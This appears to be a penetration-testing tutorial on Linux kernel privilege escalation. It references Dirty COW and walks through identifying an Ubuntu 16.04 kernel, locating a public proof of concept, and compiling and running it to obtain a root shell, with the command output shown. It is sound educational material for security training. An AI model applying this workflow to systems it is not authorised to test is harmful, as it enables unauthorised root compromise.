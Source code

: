 # Kernel Exploits

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW `*https://github.com/dirtycow/dirtycow.github.io*` (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.`

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

# Note: Kernel exploits can cause system instability so use caution when running these against a production system.

# Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

> uname -a

    Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

> cat /etc/lsb-release 

    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with this (https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using wget or another file transfer method. We can compile the exploit code using `gcc` (https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

> gcc kernel_expoit.c -o kernel_expoit && chmod +x kernel_expoit

Next, we run the exploit and hopefully get dropped into a root shell.

> /kernel_expoit 

    task_struct = ffff8800b71d7000
    uidptr = ffff8800b95ce544
    spawning root shell

Finally, we can confirm root access to the box.

> whoami

    root